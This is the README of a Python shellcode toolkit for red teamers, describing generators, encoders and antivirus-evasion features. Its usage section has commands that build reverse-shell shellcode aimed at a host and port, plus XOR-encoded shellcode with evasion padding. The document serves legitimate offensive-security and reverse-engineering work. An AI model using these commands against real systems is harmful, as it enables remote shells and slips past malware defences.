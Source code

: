 # 🧠 ASM Tool - Advanced Shellcode Toolkit v2.0

ASM Tool is a powerful, modular Python framework for generating, encoding, optimizing, analyzing, and evading shellcode across multiple architectures — made for red teamers, reverse engineers, and exploit devs.

![screenshot](https://img.shields.io/badge/version-v2.0-blue.svg)  
![python](https://img.shields.io/badge/python-3.8%2B-green.svg)  
![license](https://img.shields.io/badge/license-MIT-lightgrey.svg)

---

## ✨ Features

- 🔥 Shellcode Generator (exec, reverse, bind, downloader)
- 🔧 Assembly Optimizer
- 🧬 Encoder (XOR, NOT, ADD, ROT, multi-step chaining)
- 🛡️ AV Evasion (nopsled, junk, metamorphic, etc)
- 🧪 Disassembler + Dangerous Instruction Analyzer
- 📊 Shellcode Statistics & Entropy
- 📦 Modular format — easy to extend
- 🧰 Supports: `x86`, `x64`, `ARM`, `ARM64`, `MIPS`, `PPC`

---

## 🚀 Quick Usage

```bash
# Generate reverse shell
python3 asm_tool8.py --rev-shell --ip 192.168.0.123 --port 4444 --arch x86 --mode 32 --format hex

# Generate exec shell
python3 asm_tool8.py --exec-shell "/bin/sh" --arch x86 --mode 64 --format c

# Disassemble shellcode
python3 asm_tool8.py --disasm "4831c048..." --arch x86 --mode 64 --analyze --stats

# Encode with XOR + evasion
python3 asm_tool8.py --exec-shell "/bin/sh" --encode xor --key 0xaa --evasion nopsled,junk --format python
